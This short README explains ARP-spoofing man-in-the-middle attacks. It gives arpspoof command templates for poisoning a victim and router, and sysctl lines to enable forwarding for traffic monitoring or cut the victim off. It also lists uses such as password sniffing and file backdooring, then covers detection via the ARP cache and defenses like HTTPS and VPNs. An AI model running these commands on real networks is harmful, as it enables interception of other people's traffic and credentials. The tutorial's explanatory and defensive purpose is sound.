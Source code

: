 # Man in the middle attack (by arp spoofing) 

Man in the middle attack tricks the victim's computer to believe that the hacker's computer is the router, and tricks the router to believe that the hacker's computer is the victim.


### Idealogy:
send to the victim with the arp packet: (router ip) is at (hacker's mac address), and send to the router with the arp packet: (victim ip) is at (hacker's mac address).

    Send to the victim: (router ip) is at (hacker's mac address)
    arpspoof [-i interface] [-t victim] router

    Send to the router: (victim ip) is at (hacker's mac address)
    arpspoof [-i interface] [-t router] victim

By opening forwarding, the victim's internet activity flows through the hacker, and thus it can be monitored.

    sudo sysctl net.ipv4.ip_forward=1

By not opening forwarding, the victim loses internet access.

    sudo sysctl net.ipv4.ip_forward=0

### Applications:
Getting man in the middle allows dos attack, password sniffing, inject javascript in web browsers, backdoor files on the fly, etc.

### How to know if you are the victim?

Make sure you know the actual router's mac address. If your arp cache for the router has a different mac address or multiple mac addresses for one IP, then you are spoofed.
arp -a lists all arp caches in your computer

### Defend against it:
Install HTTPS EVERYWHERE (https://www.eff.org/https-everywhere). This addon forces connection to go through https, thus hackers cannot sniff for passwords.
Use a reliabe VPN, but beware that the VPN provider can theoretically monitor your data.

